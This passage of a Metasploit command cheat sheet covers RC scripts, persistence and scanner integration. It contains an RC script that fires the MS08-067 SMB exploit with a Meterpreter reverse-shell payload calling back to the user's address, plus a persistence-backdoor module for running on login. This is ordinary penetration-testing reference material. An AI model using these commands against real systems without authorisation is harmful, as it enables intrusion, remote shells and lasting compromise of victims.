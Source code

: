 
### **13. Scripting and Automation**

- **Run Custom Scripts (.rc files):**
  ```bash
  msfconsole -r <script.rc>
  ```
- **Example RC Script:**
  ```plaintext
  use exploit/windows/smb/ms08_067_netapi
  set PAYLOAD windows/meterpreter/reverse_tcp
  set RHOST <target>
  set LHOST <your_ip>
  exploit
  ```

---

### **14. Maintaining Persistence**

- **Persistent Backdoor Payload:**
  ```bash
  windows/meterpreter/reverse_tcp
  ```
- **Execute a Script on Login:**
  ```bash
  use post/windows/manage/persistence
  set SESSION <session_id>
  ```

---

### **15. Useful External Tools**

- **Nmap Integration:**
  ```bash
  db_nmap -sV <target>
  ```
- **Armitage:** GUI front-end for Metasploit.
- **Nessus Integration:**
  ```bash
  db_import <nessus_scan_file>
  ```

---  
